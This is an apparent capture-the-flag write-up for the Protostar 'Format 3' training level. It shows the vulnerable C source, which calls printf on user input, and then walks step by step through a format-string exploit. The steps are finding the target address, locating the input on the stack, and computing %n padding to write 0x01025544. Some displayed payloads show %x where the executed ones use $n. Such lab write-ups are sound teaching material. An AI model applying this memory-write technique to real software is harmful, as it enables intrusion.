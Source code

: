 # Protostar - Format 3

### About ###

>This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.
>
>This level is at `/opt/protostar/bin/format3`

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### Solution 

This exercise is not so different from the ones before. Instead of changing one byte, we'll need to change four. Although, we won't need to write at four different addresses, we can write two bytes at a time.

First, we need to find the address of `target`.

```
user@protostar:/tmp$ objdump -t /opt/protostar/bin/format3 | grep target
080496f4 g     O .bss  	00000004              target
```

Since the address of `target` is `0x080496f4` we are going to use the format string bug to write at the addresses `0x080496f4` and `0x080496f6`. 

The second step is to find where our buffer is located on the stack.

```
user@protostar:/tmp$ for i in $(seq 1 20); do echo $i; python -c "print 'ABCDEFGHIJKLMNOP.%$i\$x'" | format3; echo; done;
1
ABCDEFGHIJKLMNOP.0
target is 00000000 :(
[...]
12
ABCDEFGHIJKLMNOP.44434241 <--- Our pattern
target is 00000000 :(

13
ABCDEFGHIJKLMNOP.48474645
target is 00000000 :(
[...]
```

We can already test if we can change the value of `target` with the following format string:
```
\xf4\x96\x04\x08\xf6\x96\x04\x08%12$x%13$x
```

```
user@protostar:/tmp$ python -c "print '\xf4\x96\x04\x08\xf6\x96\x04\x08%12\$n%13\$n'" | format3
�
target is 00080008 :(
```

Looks good. :)

Time for some maths. `target` needs to be equal to `0x01025544`. The first value that we are going to write is `0x5544`, 21828 in decimal, at `0x080496f4`. We already wrote 8 bytes, so we need to pad our input with 21820 bytes.

```
\xf4\x96\x04\x08\xf6\x96\x04\x08%21820c%12$x%13$x
```

```
user@protostar:/tmp$ python -c "print '\xf4\x96\x04\x08\xf6\x96\x04\x08%21820c%12\$n%13\$n'" | format3
[...]
target is 55445544 :(
```

The first two bytes are correct, now for the last two, we notice that `0x5544 > 0x0102`. In order to write the correct value, we'll need to overflow the number of bytes already written. It maxes out at 65535, after that it gets back to 0. Thus, to change the last two bytes to `0x0102`, we will write 43966 characters.

```
0x10000 - 0x5544 + 0x0102 = 65536 - 21828 + 258 = 43966
```

We now have the following format string:

```
\xf4\x96\x04\x08\xf6\x96\x04\x08%21820c%12$x%43966c%13$x
```
And it writes the correct value into `target`.

```
user@protostar:/tmp$ python -c "print '\xf4\x96\x04\x08\xf6\x96\x04\x08%21820c%12\$n%43966c%13\$n'" | format3
[...]
you have modified the target :)
```


